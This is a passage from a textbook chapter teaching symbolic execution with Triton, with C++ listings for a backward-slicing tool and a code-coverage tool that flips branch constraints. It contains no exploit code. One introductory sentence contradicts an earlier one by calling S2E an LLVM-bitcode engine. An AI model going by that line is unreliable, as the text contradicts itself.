

## 13 PRACTICAL SYMBOLIC EXECUTION WITH TRITON

In Chapter 12, you became familiar with the principles of symbolic execution. Now let’s build real symbex tools with Triton, a popular open source symbolic execution engine. This chapter demonstrates how to build a backward slicing tool, increase code coverage, and automatically exploit a vulnerability with Triton.

There are a handful of symbolic execution engines in existence, and only a few of them can operate on binary programs. The best-known binary-level symbex engines are Triton, angr,^(1) and S2E.^(2) KLEE is another well-known symbex engine that operates on LLVM bitcode instead of binary code.^(3) I’ll use Triton because it integrates easily with Intel Pin and is slightly faster because of its C++ backend. Other famous symbex engines include KLEE and S2E, which operate on LLVM bitcode instead of binary code.

### 13.1 Introduction to Triton

Let’s start by taking a more detailed look at Triton’s main features. Triton is a free, open source binary analysis library that’s best known for its symbolic execution engine. It offers APIs for C/C++ and Python and currently supports the x86 and x64 instruction sets. You can download Triton and find documentation at *<https://triton.quarkslab.com>*. I’ve preinstalled Triton version 0.6 (build 1364) on the VM in the directory *~/triton*.

Triton, like `libdft`, is an experimental tool (there are currently no fully mature binary-level symbex engines). That means you may encounter bugs, which you can report at *<https://github.com/JonathanSalwan/Triton/>*. Triton also needs a special, manually written handler for every type of instruction, telling the symbex engine about the effects that instruction has on the symbolic state. As a result, you may face incorrect results or errors if the program you’re analyzing uses instructions not supported by Triton.

I’ll use Triton for the practical symbex examples because it’s easy to use, is relatively well documented, and is written in C++, which gives it a performance advantage over engines written in languages like Python. Moreover, Triton’s concolic mode is based on Intel Pin, with which you’re already familiar.

Triton supports two modes, a *symbolic emulation mode* and a *concolic execution mode*, that correspond to the static (SSE) and dynamic (DSE) symbex philosophies. In both modes, Triton allows you to concretize part of the state to reduce the complexity of the symbolic expressions. Recall that SSE doesn’t really run a program but rather emulates it, while concolic execution does run the program and tracks symbolic state as metadata. As a result, symbolic emulation mode is slower than concolic mode because it must emulate each instruction’s effects on both the symbolic and concrete states, whereas concolic mode gets the concrete state “for free.”

Concolic execution mode relies on Intel Pin and must run the analyzed program from the start. In contrast, with symbolic emulation you can easily emulate only part of a program, such as a single function, rather than the whole program. In this chapter, you’ll see practical examples of both symbolic emulation mode and concolic mode. For a more complete discussion of the advantages and disadvantages of the two approaches, refer to Chapter 12.

Triton is foremost an offline symbex engine, in the sense that it explores only a single path at a time. But it also features a snapshot mechanism that allows you to concolically explore multiple paths without having to completely start over every time. Moreover, it incorporates a coarse-grained taint analysis engine with one color. While you won’t need these features in this chapter, you can learn more about them from Triton’s online documentation and examples.

Recent versions of Triton also allow you to plug in a different binary instrumentation platform instead of Pin and a different constraint solver of your choice. In this chapter, I’ll simply use the defaults, which are Pin and Z3. The Triton version installed on the VM specifically requires Pin version 2.14 (71313), which you’ll also find preinstalled in *~/triton/pin -2.14-71313-gcc.4.4.7-linux*.

### 13.2 Maintaining Symbolic State with Abstract Syntax Trees

In both emulation mode and concolic mode, Triton maintains a global set of symbolic expressions, a mapping from registers and memory addresses to these symbolic expressions, and a list of path constraints, similar to Figure 12-1 from Chapter 12. Triton represents symbolic expressions and constraints as *abstract syntax trees (ASTs)*, with one AST per expression or constraint. An AST is a tree data structure that depicts the syntactic relationships between operations and operands. The AST nodes contain operations and operands in Z3’s SMT language.

For example, Figure 13-1 shows how the AST for the `eax` register evolves over the following sequence of three instructions:

```
shr eax,cl
xor eax,0x1
and eax,0x1
```

For each instruction, the figure shows two ASTs side by side: a full AST on the left and an AST with *references* on the right. Let’s first discuss the left side of the figure, and then I’ll explain the ASTs with references.

##### Full ASTs

The figure assumes that `eax` and `cl` initially map to unbounded symbolic expressions corresponding to a 32-bit symbolic value *α*₁ and an 8-bit symbolic value *α*₂, respectively. For example, you can see that the initial state for `eax` ➊ is an AST rooted at a `bv` (*bitvector*) node, with two child nodes containing the values *α*₁ and 32. This corresponds to an unbounded 32-bit Z3 bitvector, as in `(declare-const alpha1 (_ BitVec 32))`.

The `shr eax,cl` instruction is a logical right shift that uses `eax` and `cl` as its operands and stores the result in `eax`. Thus, after this instruction ➋, the full AST for `eax` has a `bvlshr` (logical right shift) node as its root, with child trees representing the original ASTs for `eax` and `cl`. Note that the right child tree, representing `cl`’s contents, is rooted at a `concat` operation that prepends 24 zero bits to `cl`’s value. That’s necessary because `cl` is only 8 bits wide, but you have to widen it to 32 bits (the same width as `eax`) because the SMT-LIB 2.0 format that Z3 uses requires that both operands to the `bvlshr` have the same bit width.

After the `xor eax,0x1` instruction ➌, the AST for `eax` becomes a `bvxor` node with `eax`’s previous AST as the left subtree and a constant bitvector containing the value `1` as the right subtree. Similarly, `and eax,0x1` ➍ results in an AST rooted at a `bvand` node, again with `eax`’s previous AST as the left subtree and a constant bitvector as the right.



*Figure 13-1: Effect of instructions on register abstract syntax trees*

##### ASTs with References

You may have noticed that the full ASTs contain lots of redundancy: every time an AST depends on a previous one, the entire previous AST becomes a subtree in the new one. Large and complex programs have many dependencies between operations, so the previous scheme causes unnecessary memory overhead. That’s why Triton represents ASTs more compactly, using references, as shown on the right side of Figure 13-1.

In this scheme, each AST has a name like `ref!1`, `ref!2`, and so on, which you can refer to from another AST. This way, instead of having to copy an entire previous AST, you can simply refer to it by including a *reference node* in the new AST. For example, the right side of Figure 13-1 shows how the entire left subtree in `eax`’s AST after the `and eax,0x1` instruction can be replaced with a single reference node that refers to the previous AST, compressing 15 nodes into just 1 node.

Triton offers an API function called `unrollAst` that allows you to expand an AST with references into a full AST so that you can manually inspect it, manipulate it, or pass it to Z3. Now that you’re familiar with Triton’s basic workings, let’s learn how to use `unrollAst` and other Triton functions in practice by taking a look at some examples.

### 13.3 Backward Slicing with Triton

This first example implements backward slicing in Triton’s symbolic emulation mode. This example is a generalized version of an example that comes with Triton, which you’ll find in *~/triton/pin-2.14-71313-gcc.4.4.7-linux/ source/tools/Triton/src/examples/python/backward_slicing.py*. The original Triton tool uses the Python API, but here I’ll use Triton’s C/C++ API instead. You’ll see an example of a Triton tool written in Python in Section 13.5.

Recall that backward slicing is a binary analysis technique that tells you, at a certain point in the execution, which previous instructions contributed to the value of a given register or memory address. For example, let’s say you want to compute the backward slice at address `0x404b1e` with respect to `rcx` in the code fragment from */bin/ls* shown in Listing 13-1.

*Listing 13-1: Disassembly excerpt from* /bin/ls

```
  $ objdump -M intel -d /bin/ls

  ...
  404b00:  49 89 cb           mov    r11,rcx
  404b03:  48 8b 0f           mov    rcx,QWORD PTR [rdi]
  404b06:  48 8b 06           mov    rax,QWORD PTR [rsi]
  404b09:  41 56              push   r14
  404b0b:  41 55              push   r13
  404b0d:  41 ba 01 00 00 00  mov    r10d,0x1
  404b13:  41 54              push   r12
  404b15:  55                 push   rbp
  404b16:  4c 8d 41 01        lea    r8,[rcx+0x1]
  404b1a:  48 f7 d1           not    rcx
  404b1d:  53                 push   rbx
➊ 404b1e:  49 89 c9          mov    r9,rcx
  ...
```

The backward slice consists of all the instructions that contribute to the value of `rcx` at address `0x404b1e` ➊. Thus, the slice should include the instructions shown in the following listing:

```
404b03: mov rcx,QWORD PTR [rdi]
404b1a: not rcx
404b1e: mov r9,rcx
```

Now let’s see how to automatically compute backward slices like this with Triton. You’ll first learn to build a backward slicing tool and then use it to slice the code fragment shown in Listing 13-1, producing the same result as the manual slice you just saw.

Because Triton expresses symbolic expressions as ASTs that reference each other, it’s easy to compute a backward slice for a given expression. Listing 13-2 shows the first part of the implementation of the backward slicing tool. As usual, I’ve omitted includes of standard C/C++ header files from the listing.

*Listing 13-2:* backward_slicing.cc

```
➊ #include "../inc/loader.h"
  #include "triton_util.h"
  #include "disasm_util.h"

  #include <triton/api.hpp>
  #include <triton/x86Specifications.hpp>

  int
  main(int argc, char *argv[])
  {
    Binary bin;
    triton::API api;
    triton::arch::registers_e ip;
    std::map<triton::arch::registers_e, uint64_t> regs;
    std::map<uint64_t, uint8_t> mem;

    if(argc < 6) {
      printf("Usage: %s <binary> <sym-config> <entry> <slice-addr> <reg>\n", argv[0]);
      return 1;
    }

    std::string fname(argv[1]);
    if(load_binary(fname, &bin, Binary::BIN_TYPE_AUTO) < 0) return 1;

➋   if(set_triton_arch(bin, api, ip) < 0) return 1;
     api.enableMode(triton::modes::ALIGNED_MEMORY, true);

➌   if(parse_sym_config(argv[2], &regs, &mem) < 0) return 1;
     for(auto &kv: regs) {
       triton::arch::Register r = api.getRegister(kv.first);
       api.setConcreteRegisterValue(r, kv.second);
     }
     for(auto &kv: mem) {
       api.setConcreteMemoryValue(kv.first, kv.second);
     }

     uint64_t pc         = strtoul(argv[3], NULL, 0);
     uint64_t slice_addr = strtoul(argv[4], NULL, 0);
     Section *sec = bin.get_text_section();

➍   while(sec->contains(pc)) {
       char mnemonic[32], operands[200];
➎     int len = disasm_one(sec, pc, mnemonic, operands);
       if(len <= 0) return 1;

➏     triton::arch::Instruction insn;
       insn.setOpcode(sec->bytes+(pc-sec->vma), len);
       insn.setAddress(pc);

➐     api.processing(insn);

➑     for(auto &se: insn.symbolicExpressions) {
         std::string comment = mnemonic; comment += " "; comment += operands;
         se->setComment(comment);
       }

➒     if(pc == slice_addr) {
         print_slice(api, sec, slice_addr, get_triton_regnum(argv[5]), argv[5]);
         break;
       }

➓     pc = (uint64_t)api.getConcreteRegisterValue(api.getRegister(ip));
     }

     unload_binary(&bin);

     return 0;
   }
```

To use the tool, you provide it with the filename of the binary to analyze, a symbolic configuration file, the entry point address at which to start the analysis, the address at which to compute the slice, and the register with respect to which to compute the slice, all via command line arguments.

I’ll explain the purpose of the symbolic configuration file in a moment. Note that here, the entry point address is simply the address of the first instruction that the slicing tool will emulate; it doesn’t have to be the same as the binary’s entry point. For instance, to slice the example code from Listing 13-1, you use `0x404b00` as the entry point address so that the analysis emulates all the instructions shown in the listing up until the slice address.

The output of `backward_slicing` is a list of the assembly instructions that are in the slice. Now let’s take a more detailed look at how `backward_slicing` generates the program slice, starting with a more in-depth discussion of the necessary includes and the `main` function.

#### *13.3.1 Triton Header Files and Configuring Triton*

The first thing you’ll notice in Listing 13-2 is that it includes *../inc/loader.h* ➊ because `backward_slicing` uses the binary loader developed in Chapter 4. It also includes *triton_util.h* and *disasm_util.h*, which provide some utility functions I’ll describe shortly. Finally, there are two Triton-specific header files, both with the *.hpp* extension: *triton/api.hpp* provides the main Triton C**++** API, while *triton/x86Specifications.hpp* provides x86-specific definitions, such as register definitions. Besides including these header files, you must link with `-ltriton` to use Triton’s symbolic emulation mode.

The `main` function starts by loading the binary you’re analyzing using the `load_binary` function from the binary loader. Then, it configures Triton to the architecture of the binary using a function called `set_triton_arch` ➋, defined in *backward_slicing.cc*, which I’ll discuss in detail in Section 13.3.4. It also calls Triton’s `api.enableMode` function to enable Triton’s `ALIGNED_MEMORY` mode, where `api` is an object of type `triton::API`, which is Triton’s main class that provides the C++ API.

Recall that symbolic memory accesses can greatly increase the size and complexity of the symbolic state because the symbex engine must model all possible outcomes of the memory access. Triton’s `ALIGNED_MEMORY` mode is an optimization that reduces the symbolic memory explosion by assuming that memory loads and stores access-aligned memory addresses. You can safely enable this optimization if you know memory accesses are aligned or if the precise memory addresses don’t matter for the analysis.

#### *13.3.2 The Symbolic Configuration File*

In most of your symbex tools, you’ll want to make some registers and memory addresses symbolic or set them to specific concrete values. Which parts of the state you make symbolic and which concrete values you use depend on the application you’re analyzing and the paths you want to explore. Thus, if you hardcode the decisions on what state to symbolize and concretize, your symbex tool will be application specific.

To prevent that, let’s create a simple *symbolic configuration file* format in which you can configure these decisions. There’s a utility function called `parse_sym_config`, defined in *triton_util.h*, that you can use to parse symbolic configuration files and load them into your symbex tool. The following listing shows an example symbolic configuration file:

```
%rax=0
%rax=$
@0x1000=5
```

In the symbolic configuration file format, you denote registers by `%`*name* and memory addresses by `@`*address*. You can assign concrete integers to each register or memory byte or make them symbolic by assigning the value `$`. For example, this configuration file assigns the concrete value `0` to `rax` and then makes `rax` symbolic and assigns the value `5` to the byte at memory address `0x1000`. Note that `rax` is symbolic but at the same time has a concrete value to drive the emulation to the correct path.

Now let’s get back to Listing 13-2. After loading the binary to analyze and configuring Triton, `backward_slicing` calls `parse_sym_config` to parse the symbolic configuration file specified on the command line ➌. This function takes the filename of the configuration file as input, followed by two parameters that are both references to `std::map` objects in which `parse_sym_config` loads the configuration. The first `std::map` maps Triton register names (of an `enum` type called `triton::arch::registers_e`) to concrete `uint64_t` values containing the register contents, while the second `std::map` maps memory addresses to concrete byte values.

Actually, `parse_sym_config` takes two more optional parameters to load the lists of symbolic registers and memory addresses into. I haven’t used those here because to compute slices, you’re interested only in the ASTs that Triton builds, and by default Triton builds ASTs even for registers and memory locations that you haven’t explicitly made symbolic.^(4) You’ll see an example where you do need to explicitly symbolize some parts of the state in Section 13.4.

Directly after the call to `parse_sym_config`, the `main` function of `backward _slicing` contains two `for` loops. The first loops over the map of just-loaded concrete register values and tells Triton to assign these concrete values to its internal state. To do that, you call `api.setConcreteRegisterValue`, which takes a Triton register and a concrete integer value as input. Triton registers have the type `triton::arch::Register`, and you can obtain them from a Triton register name (of the `enum` type `triton::arch::registers_e`) using the `api.getRegister` function. Each register name has the form `ID_REG_`*name*, where *name* is an uppercase register name like `AL`, `EBX`, `RSP`, and so on.

Similarly, the second `for` loop goes over the map of concrete memory values and tells Triton about them using `api.setConcreteMemoryValue`, which takes a memory address and a concrete byte value as input.^(5)

#### *13.3.3 Emulating Instructions*

Loading the symbolic configuration file is the last part of the setup code for `backward_slicing`. Now, the main emulation loop that emulates instructions from the binary begins, starting at the user-specified entry point address and continuing until it hits the instruction at which to compute the slice. This sort of emulation loop is typical of nearly all symbolic emulation tools you’ll write with Triton.

The emulation loop is simply a `while` loop that stops when the slice is complete or when it encounters an instruction address outside of the binary’s `.text` section ➍. To keep track of the current instruction address, there’s an emulated program counter called `pc`.

Each iteration of the loop starts by disassembling the current instruction using `disasm_one` ➎, another utility function I’ve provided in *disasm_util.h*. It uses Capstone to obtain strings containing the instruction’s mnemonic and operands, needed in a moment.

Next, `backward_slicing` builds a Triton instruction object of type `triton:: arch::Instruction` for the current instruction ➏ and uses the `Instruction`’s `setOpcode` function to populate it with the instruction opcode bytes taken from the binary’s `.text` section. It also sets the `Instruction`’s address to the current `pc` using the `setAddress` function.

After creating a Triton `Instruction` object for the current instruction, the emulation loop *processes* the `Instruction` by calling the `api.processing` function ➐. Despite its generic name, the `api.processing` function is central to Triton symbolic emulation tools because it performs the actual instruction emulation and advances Triton’s symbolic and concrete state based on the emulation results.

After the current instruction is processed, Triton will have built internal abstract syntax trees representing the symbolic expressions for register and memory states affected by the instruction. Later, you’ll see how to use these symbolic expressions to compute the backward slice. To produce a slice that contains x86 instructions, not symbolic expressions in SMT-LIB 2.0 format, you need to track which instruction is associated with each symbolic expression. The `backward_slicing` tool achieves that by looping over the list of all symbolic expressions associated with the just-processed instruction and decorating each expression with a comment that contains the instruction mnemonic and operand strings obtained earlier from the `disasm_one` function ➑.

To access an `Instruction`’s list of symbolic expressions, you can use its `symbolicExpressions` member, which is an object of type `std::vector<triton:: engines::symbolic::SymbolicExpression*>`. The `SymbolicExpression` class provides a function called `setComment` that allows you to specify a comment string for a symbolic expression.

When the emulation reaches the slice address, `backward_slicing` calls a function called `print_slice` that computes and prints the slice and then breaks out of the emulation loop ➒. Note that `get_triton_regnum` is another utility function from *triton_util.h* that returns the corresponding Triton register identifier based on a human-readable register name. Here, it returns the register identifier for the register to slice, to pass to `print_slice`.

When you call Triton’s `processing` function, Triton internally updates the concrete instruction pointer value to point to the next instruction. At the end of each emulation loop iteration, you get this new instruction pointer value using the function `api.getConcreteRegisterValue` and assign it to your own program counter (called `pc` in this example) that drives the emulation loop ➓. Note that for 32-bit x86 programs, you need to fetch the contents of `eip`, while for x64 programs, the instruction pointer is `rip`. Let’s now take a look at how the `set_triton_arch` function mentioned earlier configures the `ip` variable with the identifier of the correct instruction pointer register for the emulation loop to use.

#### *13.3.4 Setting Triton’s Architecture*

The `backward_slicing` tool’s `main` function calls `set_triton_arch` to configure Triton with the instruction set of the binary and get the name of the instruction pointer register used in that architecture. Listing 13-3 shows how `set_triton_arch` is implemented.

*Listing 13-3:* backward_slicing.cc *(continued)*

```
  static int
  set_triton_arch(Binary &bin, triton::API &api, triton::arch::registers_e &ip)
  {
➊   if(bin.arch != Binary::BinaryArch::ARCH_X86) {
       fprintf(stderr, "Unsupported architecture\n");
       return -1;
     }

➋   if(bin.bits == 32) {
➌     api.setArchitecture(triton::arch::ARCH_X86);
➍     ip = triton::arch::ID_REG_EIP;
     } else if(bin.bits == 64) {
➎     api.setArchitecture(triton::arch::ARCH_X86_64);
➏     ip = triton::arch::ID_REG_RIP;

    } else {
      fprintf(stderr, "Unsupported bit width for x86: %u bits\n", bin.bits);
      return -1;
    }

    return 0;
 }
```

The function takes three parameters: a reference to the `Binary` object returned by the binary loader, a reference to the Triton API, and a reference to a `triton::arch::registers_e` in which to store the name of the instruction pointer register. If successful, `set_triton_arch` returns 0, and if there’s an error, it returns −1.

First, `set_triton_arch` ensures that it’s dealing with an x86 binary (either 32-bit or 64-bit) ➊. If this is not the case, it returns with an error because Triton cannot currently deal with architectures other than x86.

If there’s no error, `set_triton_arch` checks the bit width of the binary ➋. If the binary uses 32-bit x86, it configures Triton in 32-bit x86 mode (`triton::arch::ARCH_X86`) ➌ and sets `ID_REG_EIP` as the name of the instruction pointer register ➍. Similarly, if it’s an x64 binary, it sets the Triton architecture to `triton::arch::ARCH_X86_64` ➎ and sets `ID_REG_RIP` as the instruction pointer ➏. To configure Triton’s architecture, you use the `api.setArchitecture` function, which takes the architecture type as its only parameter.

#### *13.3.5 Computing the Backward Slice*

To compute and print the actual slice, `backward_slicing` calls the `print_slice` function when the emulation hits the address at which to slice. You can see the implementation of `print_slice` in Listing 13-4.

*Listing 13-4:* backward_slicing.cc *(continued)*

```
   static void
   print_slice(triton::API &api, Section *sec, uint64_t slice_addr,
               triton::arch::registers_e reg, const char *regname)
   {
     triton::engines::symbolic::SymbolicExpression *regExpr;
     std::map<triton::usize, triton::engines::symbolic::SymbolicExpression*> slice;
     char mnemonic[32], operands[200];

➊    regExpr = api.getSymbolicRegisters()[reg];
➋    slice = api.sliceExpressions(regExpr);

➌    for(auto &kv: slice) {
        printf("%s\n", kv.second->getComment().c_str());
     }
➍   disasm_one(sec, slice_addr, mnemonic, operands);
     std::string target = mnemonic; target += " "; target += operands;

     printf("(slice for %s @ 0x%jx: %s)\n", regname, slice_addr, target.c_str());
  }
```

Recall that slices are computed with respect to a particular register, as specified by the `reg` parameter. To compute the slice, you need the symbolic expression associated with that register just after emulating the instruction at the slice address. To get this expression, `print_slice` calls `api.getSymbolicRegisters`, which returns a map of all registers to their associated symbolic expressions and then indexes that map to obtain the expression associated with `reg` ➊. Then it obtains the slice of all symbolic expressions that contribute to `reg`’s expression using `api.sliceExpressions` ➋, which returns the slice in the form of a `std::map` that maps integer expression identifiers to `triton::engines::symbolic::SymbolicExpression*` objects.

You now have a slice of symbolic expressions, but what you really want is a slice of x86 assembly instructions. This is precisely the purpose of the symbolic expression comments, which associate each expression with the assembly mnemonic and operand strings of the instruction that produced the expression. Thus, to print the slice, `print_slice` simply loops over the slice of symbolic expressions, gets their comments using `getComment`, and prints the comments to screen ➌. For completeness, `print_slice` also disassembles the instruction at which you’re computing the slice and prints it to screen as well ➍.

You can try the `backward_slice` program on the VM by running it as shown in Listing 13-5.

*Listing 13-5: Computing the backward slice at* 0x404b1e *with respect to* rcx

```
➊ $ ./backward_slicing /bin/ls empty.map 0x404b00 0x404b1e rcx
➋ mov rcx, qword ptr [rdi]
  not rcx
  (slice for rcx @ 0x404b1e: mov r9, rcx)
```

Here, I’ve used `backward_slicing` to compute a slice over the code fragment from */bin/ls* you saw in Listing 13-1 ➊. I’ve used an empty symbolic configuration file (*empty.map*) and specified `0x404b00`, `0x404b1e`, and `rcx` as the entry point address, the slice address, and the register to slice, respectively. As you can see, this produces the same output as the manually computed slice you saw before ➋.

The reason it’s okay to use an empty symbolic configuration file in this example is that the analysis doesn’t rely on any particular registers or memory locations being symbolic, and you don’t need any specific concrete values to drive the execution since the code fragment you’re analyzing doesn’t contain any branches. Now let’s take a look at another example where you’ll need a nonempty symbolic configuration to explore multiple paths through the same program.

### 13.4 Using Triton to Increase Code Coverage

Because the backward slicing example needed only Triton’s ability to track symbolic expressions for registers and memory locations, it didn’t use symbolic execution’s core strength: reasoning about program properties through constraint solving. In this example, you’ll get acquainted with Triton’s constraint-solving abilities in the classic symbex use case of *code coverage*.

Listing 13-6 shows the first part of the source of the `code_coverage` tool. You’ll notice that a lot of the source is the same as or similar to that of the previous example. In fact, I’ve omitted the `set_triton_arch` function from the listing because it’s exactly the same as in the `backward_slicing` tool.

*Listing 13-6:* code_coverage.cc

```
   #include "../inc/loader.h"
   #include "triton_util.h"
   #include "disasm_util.h"

   #include <triton/api.hpp>
   #include <triton/x86Specifications.hpp>

   int
   main(int argc, char *argv[])
   {
     Binary bin;
     triton::API api;
     triton::arch::registers_e ip;
     std::map<triton::arch::registers_e, uint64_t> regs;
     std::map<uint64_t, uint8_t> mem;
     std::vector<triton::arch::registers_e> symregs;
     std::vector<uint64_t> symmem;

     if(argc < 5) {
       printf("Usage: %s <binary> <sym-config> <entry> <branch-addr>\n", argv[0]);
       return 1;
   }

   std::string fname(argv[1]);
   if(load_binary(fname, &bin, Binary::BIN_TYPE_AUTO) < 0) return 1;

   if(set_triton_arch(bin, api, ip) < 0) return 1;
   api.enableMode(triton::modes::ALIGNED_MEMORY, true);

➊  if(parse_sym_config(argv[2], &regs, &mem, &symregs, &symmem) < 0) return 1;
    for(auto &kv: regs) {
      triton::arch::Register r = api.getRegister(kv.first);
      api.setConcreteRegisterValue(r, kv.second);
   }
➋  for(auto regid: symregs) {
     triton::arch::Register r = api.getRegister(regid);
     api.convertRegisterToSymbolicVariable(r)->setComment(r.getName());
   }
   for(auto &kv: mem) {
     api.setConcreteMemoryValue(kv.first, kv.second);
   }
➌  for(auto memaddr: symmem) {
     api.convertMemoryToSymbolicVariable(
         triton::arch::MemoryAccess(memaddr, 1))->setComment(std::to_string(memaddr));
   }

    uint64_t pc          = strtoul(argv[3], NULL, 0);
    uint64_t branch_addr = strtoul(argv[4], NULL, 0);
    Section *sec = bin.get_text_section();

➍  while(sec->contains(pc)) {
      char mnemonic[32], operands[200];
      int len = disasm_one(sec, pc, mnemonic, operands);
      if(len <= 0) return 1;

      triton::arch::Instruction insn;
      insn.setOpcode(sec->bytes+(pc-sec->vma), len);
      insn.setAddress(pc);

      api.processing(insn);

➎    if(pc == branch_addr) {
        find_new_input(api, sec, branch_addr);
        break;
      }

      pc = (uint64_t)api.getConcreteRegisterValue(api.getRegister(ip));
    }

    unload_binary(&bin);

    return 0;
  }
```

To use the `code_coverage` tool, you supply command line arguments specifying the binary to analyze, a symbolic configuration file, the entry point address for the analysis, and the address of a direct branch instruction. The tool assumes that your symbolic configuration file contains concrete inputs that cause the branch to take one of the two possible paths (it doesn’t matter which path). It then uses the constraint solver to compute a model containing a new set of concrete inputs that will cause the branch to go the other way. For the solver to succeed, you must take care to symbolize all the registers and memory locations that the branch you want to flip depends on.

As you can see in the listing, `code_coverage` includes the same utility and Triton header files as the previous example. Moreover, the `main` function of `code_coverage` is almost identical to the `main` function of `backward_slicing`. As in that example, it starts by loading the binary and configuring the Triton architecture and then enables the `ALIGNED_MEMORY` optimization.

#### *13.4.1 Creating Symbolic Variables*

A difference between this and the previous example is that the code that parses the symbolic configuration file passes two optional arguments (`symregs` and `symmem`) ➊ to `parse_sym_config`. These are output arguments where `parse _sym_config` writes the lists of registers and memory locations to symbolize according to the configuration file. In the configuration file, you’ll want to symbolize all registers and memory locations that contain user inputs so that the model the constraint solver returns will give you a concrete value for each of those user inputs.

After assigning the concrete values from the configuration file, `main` loops over the list of registers to symbolize and symbolizes them using Triton’s `api.convertRegisterToSymbolicVariable` function ➋. The same line of code that symbolizes the register immediately sets a comment on the just-created symbolic variable, specifying the register’s human-readable name. That way, when you later get a model from the constraint solver, you’ll know how to map the symbolic variable assignments in the model back onto the real registers and memory.

The loop that symbolizes memory locations is similar. For each memory location to symbolize, it builds a `triton::arch::MemoryAccess` object, which specifies the address and size (in bytes) of the memory location. In this case, I’ve hardcoded the size to 1 byte because the configuration file format allows you to reference memory locations only at byte granularity. To symbolize the address specified in a `MemoryAccess` object, you use the Triton function `api.convertMemoryToSymbolicVariable` ➌. After that, the loop sets a comment mapping the new symbolic variable to a human-readable string containing the memory address.

#### *13.4.2 Finding a Model for a New Path*

The emulation loop ➍ is the same as in `backward_slicing`, except that this time it emulates until `pc` is equal to the address of the branch for which you want to find a new set of inputs ➎. To find these new inputs, `code_coverage` calls a separate function named `find_new_input`, which is shown in Listing 13-7.

*Listing 13-7:* code_coverage.cc *(continued)*

```
   static void
   find_new_input(triton::API &api, Section *sec, uint64_t branch_addr)
   {
➊   triton::ast::AstContext &ast = api.getAstContext();
➋   triton::ast::AbstractNode *constraint_list = ast.equal(ast.bvtrue(), ast.bvtrue());
   
     printf("evaluating branch 0x%jx:\n", branch_addr);

➌   const std::vector<triton::engines::symbolic::PathConstraint> &path_constraints
         = api.getPathConstraints();
➍   for(auto &pc: path_constraints) {
➎     if(!pc.isMultipleBranches()) continue;
➏     for(auto &branch_constraint: pc.getBranchConstraints()) {
        bool flag         = std::get<0>(branch_constraint);
        uint64_t src_addr = std::get<1>(branch_constraint);
        uint64_t dst_addr = std::get<2>(branch_constraint);
        triton::ast::AbstractNode *constraint = std::get<3>(branch_constraint);

➐      if(src_addr != branch_addr) {
          /* this is not our target branch, so keep the existing "true" constraint */
➑        if(flag) {
            constraint_list = ast.land(constraint_list, constraint);
         }
➒     } else {
        /* this is our target branch, compute new input */
        printf("    0x%jx -> 0x%jx (%staken)\n",
               src_addr, dst_addr, flag ? "" : "not ");

➓      if(!flag) {
          printf("    computing new input for 0x%jx -> 0x%jx\n",
                src_addr, dst_addr);
          constraint_list = ast.land(constraint_list, constraint);
          for(auto &kv: api.getModel(constraint_list)) {
            printf("      SymVar %u (%s) = 0x%jx\n",
                  kv.first,
                  api.getSymbolicVariableFromId(kv.first)->getComment().c_str(),
                  (uint64_t)kv.second.getValue());
          }
        }
      }
    }
  }
}
```

To find inputs that reach the previously unexplored branch direction, `find_new_input` feeds the solver the list of constraints that must be satisfied to reach the desired branch and then asks it for a model that satisfies those constraints. Recall that Triton represents constraints as abstract syntax trees, so to encode branch constraints, you need to build a corresponding AST. That’s why `find_new_input` starts by calling `api.getAstContext` to get a reference (called `ast`) to an `AstContext` ➊, which is Triton’s builder class for AST formulas.

To store the list of constraints that will model the path leading to the unexplored branch direction, `find_new_input` uses a `triton::ast::AbstractNode` object, reachable through a pointer called `constraint_list` ➋. `AbstractNode` is Triton’s class for representing AST nodes. To initialize `constraint_list`, you set it to the formula `ast.equal(ast.bvtrue(), ast.bvtrue())`, meaning the logical tautology `true == true`, where each `true` is a bitvector. This is just a way of initializing the constraint list to a syntactically valid formula that doesn’t impose any constraints and to which you can easily concatenate additional constraints.

##### Copying and Flipping Branch Constraints

Next, `find_new_input` calls `api.getPathConstraints` to get the list of path constraints that Triton has accumulated while emulating the code ➌. The list takes the form of a `std::vector` of `triton::engines::symbolic::PathConstraint` objects, where each `PathConstraint` is associated with one branch instruction. This list contains all the constraints that must be satisfied to take the just-emulated path. To turn this into a list of constraints for a new path, you copy all the constraints except the one for the branch you want to change, which you flip to the other branch direction.

To implement this, `find_new_input` loops over the list of path constraints ➍ and copies or flips each one. Inside each `PathConstraint`, Triton stores one or more *branch constraints*, one for each possible branch direction. In the context of code coverage, you’re interested only in multiway branches such as conditional jumps because single-way branches like direct calls or unconditional jumps don’t have any new direction to explore. To determine whether a `PathConstraint` called `pc` represents a multiway branch, you call `pc.isMultipleBranches` ➎, which returns `true` if the branch is multiway.

For `PathConstraint` objects that contain multiple branch constraints, `find _new_input` gets all the branch constraints by calling `pc.getBranchConstraints` and then loops over each constraint in the list ➏. Each constraint is a tuple of a Boolean flag, a source and destination address (both `triton::uint64`), and an AST encoding the branch constraint. The flag denotes whether the branch direction represented by the branch constraint was taken during the emulation. For example, consider the following conditional branch:

```
